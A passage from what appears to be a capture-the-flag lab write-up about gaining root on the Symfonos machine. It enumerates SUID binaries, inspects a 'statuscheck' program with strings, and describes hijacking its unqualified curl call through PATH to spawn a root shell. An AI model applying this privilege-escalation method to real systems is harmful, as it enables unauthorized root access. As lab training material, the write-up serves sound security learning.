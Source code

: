 ## Privilege Escalation
### Path Hijacking

Enumerting for SUID permissions I found the **statuscheck** binary, witch catches my attention.

```console
helios@symfonos:/var/www/html/h3l105$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/opt/statuscheck
/bin/mount
/bin/umount
/bin/su
/bin/ping
```

I execute the binary and I see that it's getting the request headers. 

```console
helios@symfonos:/var/www/html/h3l105$ /opt/statuscheck
HTTP/1.1 200 OK  
Date: Sat, 29 May 2021 18:57:19 GMT 
Server: Apache/2.4.25 (Debian) 
Last-Modified: Sat, 29 Jun 2019 00:38:05 GMT 
ETag: "148-58c6b9bb3bc5b" 
Accept-Ranges: bytes  
Content-Length: 328        
Vary: Accept-Encoding       
Content-Type: text/html
```

Analysing the binary with the strings command, I can see that it's executing the curl utility, so I will try to hijack the path.

```console
helios@symfonos:/var/www/html/h3l105$ strings /opt/statuscheck
...
_ITM_registerTMCloneTable 
GLIBC_2.2.5  
curl -I H 
http://lH 
ocalhostH
...
```

I export my current directory to the **PATH** environment variable, then I redirect with echo the **/bin/dash** command to the curl file, assign execution permissions to it, and finally run the statuscheck binary thus obtaining root access to this machine.
